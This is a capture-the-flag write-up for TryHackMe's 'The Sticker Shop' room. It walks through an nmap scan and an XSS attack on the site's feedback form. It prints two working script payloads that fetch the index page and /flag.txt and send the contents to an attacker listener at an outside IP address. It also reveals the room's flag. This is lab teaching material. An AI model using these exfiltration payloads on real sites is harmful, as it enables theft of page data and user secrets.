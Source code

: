 ```yaml
---
title: The Sticker Shop
categories: [TryHackMe]
tags: [XSS,THM]
image: /assets/thumbnails/hacktoriactf.jpg
---
```


Easy room created by [toxicat0r](https://tryhackme.com/r/p/toxicat0r). This rooms focus on the XSS vulnerabilitty. So if you guys want to try it, you can access the room [here](https://tryhackme.com/r/room/thestickershop).

## Scanning

> Start your machine to obtain the `Machine IP address` and Fire up your Nmap tools like always. To scan for the open port and services of the `IP Address`. Using the command `nmap -sC -sV [IP Address]`, and wait for a couple of minute until the scanning finish.

![image](https://github.com/user-attachments/assets/e6ed8ccb-0fdc-4ac6-83b9-86fe36e52c18)

> From our scanning result, Here we got 2 open port which is `22` for `SSH` services and `8080` for `HTTP`. So there is a website serives assigned to the `IP Address`. Let visit the site by using this url `http://IP MACHINE:8080`.

![image](https://github.com/user-attachments/assets/440aea69-215d-4a39-937f-406c8fede2b5)

## Attack & Get The Flag

> There 2 pages in the website which is `Home` and `Feeback`. Nothing was intresting in the `Home` page. Let see the `Feebackk` page.

![image](https://github.com/user-attachments/assets/4c872f7a-3b13-40fc-bad0-baa4fa735ff7)

> This is the juicy part. As we all know the `Feedback` and `Comment` pages are quite famous with `XSS` Vulnerability. So here let test if the `XSS` is reflected by the machine or not.

### Setup And Payload. 

> To test if the machine reflected to our `XSS` or not. First, i setup local server using command `Python -m http.server 80`. So that when using the `XSS`, i will be able to see the response on our local server. 

![image](https://github.com/user-attachments/assets/f51a28b1-ef2c-4fff-9635-6fcde95a825b)

> For the test payload (Shout out to CHATGPT for the assist). For test payload, i use `GET` method to fetch the source code for the `Home` page. Here is the payload :

```
<script>
  fetch('/')
    .then(response => response.text())
    .then(data => {
      const encoded = btoa(data); // Base64 encode the response text
      new Image().src = 'http://10.17.0.175/' + encoded;
    })
    .catch(err => console.error(err));
</script>
```

> Basically the payload do is `fetch('/'): Requests the source code of the current page (index page)`, `btoa(data): Converts the page source to a Base64-encoded string` .
`new Image().src: Sends the encoded source as a GET parameter (source) to your server`  

![image](https://github.com/user-attachments/assets/da47666c-25ad-4652-bedb-7b2a29e16cb1)

> Here we can see in our local python server, that we got endoded `Base64` strings, if we decode it, we get source code of the index page. So this is mean that our payload works and this machine has the `XSS` vulnerabillity.

### Get The Flag. 

> To get the flag, in the rooms description mentioned that the flag is located at `/flag.txt`. So im gonna use the same method as our test payload just now  which is to use reflect the responses to our local python server.

> Since we know the location of the flag. Just need to change a little bit from our test payload which is to change the value in the `Fetch` function. Here is our new payload (ChatGPTable):

```
<script>
  fetch('/flag.txt')
    .then(response => response.text())
    .then(data => {
      new Image().src = 'http://10.17.0.175/?flag=' + encodeURIComponent(data);
    });
</script>
```

> Look at the responses send to our local server and we get the flag.

![image](https://github.com/user-attachments/assets/52624075-942a-44dc-a7b3-5cc70b3e4cda)


## Flag 

> THM{B83789a69074f636f64a38879cfcabe8b62305ee6}



